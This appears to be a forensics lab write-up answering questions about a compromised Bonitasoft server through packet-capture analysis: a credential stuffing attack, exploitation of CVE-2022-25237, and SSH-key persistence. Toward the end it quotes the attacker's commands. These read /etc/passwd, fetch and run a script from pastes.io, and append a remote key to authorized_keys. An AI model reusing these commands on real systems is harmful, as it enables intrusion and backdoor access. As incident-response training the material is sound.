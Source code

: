 ## We believe our Business Management Platform server has been compromised. Please can you confirm the name of the application running?

- filter for `http` in Wireshark 
- notice URL contains **bonita**
- open JSON alerts file and search for `bonita` to find entries for **Bonitasoft** (confirm with a web search if desired)

### Answer: `bonitasoft`

## We believe the attacker may have used a subset of the brute forcing attack category - what is the name of the attack carried out?

- filter for `http.request.method=="POST"` and take note of the numerous logins

- expand the form information to reveals different usernames and passwords

- looks like a **credential stuffing** attack 

### Answer: `Credential Stuffing`

## Does the vulnerability exploited have a CVE assigned - and if so, which one?

- Searching within the JSON alerts file for "Bonitasoft" reveals multiple lines referencing a CVE number, such as the following: 

```
ET EXPLOIT Bonitasoft Authorization Bypass M1 (CVE-2022-25237)"
```

- Performing a web search for "Bonitasoft credential stuffing" (or similar) and/or the above CVE number should net results like the NVD page for the CVE as well

### Answer: `CVE-2022-25237`

## Which string was appended to the API URL path to bypass the authorization filter by the attacker's exploit?

<p>The NVD description (https://nvd.nist.gov/vuln/detail/CVE-2022-25237) will have this information and it can be found/verified
in the PCAP file</p>

Filter: 

```
http.request.method=="POST" && http.request.uri contains "i18ntranslation"
```

### Answer: `i18ntranslation`

## How many combinations of usernames and passwords were used in the credential stuffing attack?

- First filter out all the form submissions

Filter:
```
http.content_type == "application/x-www-form-urlencoded"
```

- Reviewing the results shows a pattern that each one set of credentials is followed by another submission with **install:install**, to remove these from the results refine the filter.

Filter:

```
http.content_type == "application/x-www-form-urlencoded" && urlencoded-form.value != "install"
```

- This leaves 59 packets but in examining the last three one can see the same credentials (**seb.broom@forela.co.uk:g0vernm3nt
**) indicating a change

- checking the response comfirms that this set of credentials was successful with a 204 response rather than 401

- There are 4 packets in the filtered output associated with the successful request meaning that 56 unique username:password attempts were made

### Answer: `56`

## Which username and password combination was successful?

- As discovered above `seb.broom@forela.co.uk:g0vernm3nt` was the successful username:password pair

### Answer: `seb.broom@forela.co.uk:g0vernm3nt`

## If any, which text sharing site did the attacker utilise?

After successful authentication the attacker makes a POST request to upload **"rce_api_extension.zip"** then follows up with a few GET requests including **cmd=whoami**, **"cmd=cat%20/etc/passwd"** and ***"cmd=wget%20https://pastes.io/raw/bx5gcr0et8"*** then subsequently executes this file with **"cmd=bash%20bx5gcr0et8"**

### Answer: `pastes.io`

## Please provide the filename of the public key used by the attacker to gain persistence on our host.

Following the link that the wget command uses leads to a page with a simple bash script containing a curl command to append an SSH key to authorized_keys and restart the SSH service

```    
#!/bin/bash
curl https://pastes.io/raw/hffgra4unv >> /home/ubuntu/.ssh/authorized_keys
sudo service ssh restart
```

### Answer: `hffgra4unv`

## Can you confirmed the file modified by the attacker to gain persistence?

As seen above, the modified file is the **authorized_keys** file which has a new key appended to it

### Answer: `/home/ubuntu/.ssh/authorized_keys`

## Can you confirm the MITRE technique ID of this type of persistence mechanism?

Using the ATT&CK Navigator and creating a new layer with the Enterprise matrix (https://mitre-attack.github.io/attack-navigator/) a simple search on **SSH** quickly reveals a result **"Account Manipulation : SSH Authorized Keys"**. Clicking view opens the description (https://attack.mitre.org/techniques/T1098/004/) which includes the ID 

### Answer: `T1098.004`